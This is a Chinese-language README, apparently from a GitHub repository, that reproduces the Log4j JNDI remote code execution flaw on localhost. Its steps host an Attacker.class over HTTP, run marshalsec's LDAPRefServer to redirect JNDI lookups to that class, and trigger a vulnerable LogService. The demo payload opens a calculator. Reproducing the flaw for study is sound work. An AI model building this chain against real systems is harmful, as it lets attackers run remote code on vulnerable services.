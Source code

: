 [English](https://github.com/Cyronlee/log4j-rce/blob/main/README.md)

## 准备

`remote/Attacker.class`使用`Java 1.8.0_292`编译

版本不同的朋友可以自己用`javac Attacker.java`编译

## 复现步骤

复现一共需要启动3个进程，成功触发会打印`Constructor`并自动打开计算器

### 1 攻击者服务

使用`python`托管`Attacker.class`

```
cd remote

python -m http.server 8888
```

### 2 jndi转发

使用`marshalsec`工具转发jndi请求到攻击者服务

```
git clone git@github.com:mbechler/marshalsec.git

cd marshalsec

mvn clean package -DskipTests

java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Attacker"
```

### 3 漏洞触发

使用命令行或IDE运行`src/main/java/LogService.java`


